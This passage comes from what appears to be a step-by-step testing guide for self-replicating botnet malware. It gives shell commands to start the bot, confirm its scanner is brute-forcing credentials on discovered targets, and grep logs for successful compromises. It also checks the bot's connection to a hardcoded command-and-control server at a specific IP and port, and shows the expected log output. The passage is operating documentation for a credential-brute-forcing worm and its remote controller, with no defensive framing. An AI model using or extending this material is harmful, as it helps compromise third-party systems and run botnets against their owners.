 ### **Step 2: Test Self-Replication Startup**
```bash
# Start the bot
./selfrep_debug test_selfrep &

# Check processes
ps aux | grep -E "(selfrep|scanner)"

# Check debug log
tail -f /tmp/selfrep_debug.log
```

**Expected Log Entries:**
```
[2024-01-15 10:30:15] [SELFREP] Bot started with PID: 12345
[2024-01-15 10:30:15] [SELFREP] Initializing self-replication scanner
[2024-01-15 10:30:15] [SCANNER] Scanner process started with PID: 12346
[2024-01-15 10:30:15] [SELFREP] Scanner initialized successfully
```

### **Step 3: Verify Scanner Activity**
```bash
# Monitor scanner processes
ps aux | grep scanner

# Check for target discovery
grep "Attempting to brute force" /tmp/selfrep_debug.log

# Check for successful compromises
grep "successful compromise" /tmp/selfrep_debug.log
```

**Expected Behavior:**
- Scanner process should be running
- Should see brute force attempts on discovered targets
- May see successful compromises with credentials

### **Step 4: Verify CNC Connection**
```bash
# Check CNC connectivity
ping -c 1 185.247.117.214

# Check if bot connects to CNC
grep "connected to CNC" /tmp/selfrep_debug.log
grep "Using hardcoded CNC IP" /tmp/selfrep_debug.log
```

**Expected Log Entries:**
```
[2024-01-15 10:30:15] [SELFREP] Using hardcoded CNC IP for self-rep: 185.247.117.214:59666
[2024-01-15 10:30:16] [SELFREP] Successfully connected to CNC server
```

## 📊 **Monitoring and Analysis**
